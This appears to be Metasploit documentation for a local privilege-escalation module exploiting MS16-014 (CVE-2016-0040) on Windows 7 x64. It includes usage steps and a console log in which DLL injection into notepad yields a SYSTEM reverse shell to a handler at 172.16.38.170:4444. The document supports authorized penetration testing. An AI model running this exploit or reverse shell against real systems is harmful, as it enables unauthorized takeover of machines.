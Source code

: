 ## Intro

This module exploits an uninitialized stack variable vulnerability
present in the WMI subsystem  of `ntoskrnl`.  The vulnerability is
described by MS16-014 and CVE-2016-0040.  The module allows the user to
elevate privileges (NT AUTHORITY\SYSTEM)

This module works against Windows7x64 SP0 and SP1
It was tested on and fails against Windows 8x64 - Windows 10x64 r1703

## Verification Steps

- [ ] obtain a session on the target system
- [ ] set the `payload`
- [ ] set the `session`
- [ ] `run`

## Scenarios

### Windows 7x64 SP1

```
meterpreter > background
[*] Backgrounding session 0...
msf exploit(handler) > use exploits/windows/local/ms16_014_wmi_recv_notif
msf exploit(ms16_014_wmi_recv_notif) > set session 0
session => 0
msf exploit(ms16_014_wmi_recv_notif) > exploit

[*] Started reverse TCP handler on 172.16.38.170:4444 
[*] Launching notepad to host the exploit...
[+] Process 3948 launched.
[*] Reflectively injecting the exploit DLL into 3948...
[*] Injecting exploit into 3948...
[*] Exploit injected. Injecting payload into 3948...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (172.16.38.170:4444 -> 172.16.38.129:49695) at 2018-03-07 08:27:57 -0800

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\whoami
whoami
SYSTEM
```
